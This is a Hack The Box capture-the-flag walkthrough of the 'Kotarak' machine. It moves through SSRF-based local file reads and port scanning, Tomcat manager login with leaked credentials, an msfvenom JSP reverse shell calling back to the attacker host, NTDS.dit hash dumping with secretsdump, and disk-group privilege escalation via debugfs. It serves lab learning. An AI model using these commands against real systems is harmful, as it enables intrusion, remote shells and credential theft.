

# [Kotarak](https://app.hackthebox.com/machines/kotarak)

```bash
nmap -p- --min-rate 10000 10.10.10.55 -Pn 
```


After detection of open ports(22,8009,8080,60000), let's do greater nmap scan.

```bash
nmap -A -sC -sV -p22,8009,8080,60000 10.10.10.55   
```


I start enumeration web application from port (60000). While looking at source code, I see `url.php` file here.


I enter value into 'path' parameter.


I change URL with local file by adding `file:///etc/passwd`.


Let's look at localhost ports via this enumeration.



So, I use fuzzer of owasp zap to find a port which can give me a lot of information (it is basically doing port scanning from URL).

For example ,we  can see information about SSH by typing 'localhost:22'


I looked at port (888).


I want to look at `backup` file, I cannot see anything.


That's why, I choose the method too see this file directly.
`url=> https://10.10.10.55:60000/url.php?path=localhost:888?doc=backup`


I grab credentials from here.

admin: 3@g01PdhB!

I access the web application's Tomcat manager from this [url](https://10.10.10.55:8080/manager/html).


Let's create malicious `.war` file via `msfvenom` command.

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.16.6 LPORT=1337 -f war > dr4ks.war
```


While clicking `dr4ks`, I will got reverse shell.


I got reverse shell from port (1337).


Let's make interactive shell.

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
Ctrl+Z
stty raw -echo; fg
export TERM=xterm
export SHELL=bash
```


I found `.dit` file from this location '/home/tomcat/to_archive/pentest_data'. It means it can be data belongs to Active Directory like `NTDS.DIT` data which stores all information about Active Directory.


Let's get this data by opening HTTP server.

1.Let's open HTTP server.

```bash
python3 -m http.server --bind 10.10.10.55 3169
```


2.Then, grab these files via `wget` command to attacker machine.

```bash
wget http://10.10.10.55:3169/20170721114636_default_192.168.110.133_psexec.ntdsgrab._333512.dit
wget http://10.10.10.55:3169/20170721114637_default_192.168.110.133_psexec.ntdsgrab._089134.bin
```


Let's use `secretsdump.py` script of `Impacket` to dump .dit database.

```bash
python3 /usr/share/doc/python3-impacket/examples/secretsdump.py -system 20170721114637_default_192.168.110.133_psexec.ntdsgrab._089134.bin -ntds 20170721114636_default_192.168.110.133_psexec.ntdsgrab._333512.dit LOCAL
```


I grab the password HASH of `atanas` and administrator users.


atanas: f16tomcat!


user.txt


While running `id` command, it says that we are in `disk` group which is so important, almost means root access. (have permission to directories in /**dev**)


Let's look at which directory is root access via `ls -al` command.


I got /dev/dm-0 from here and use `debugfs` command to read data from here.


While browsing here, I found a flag


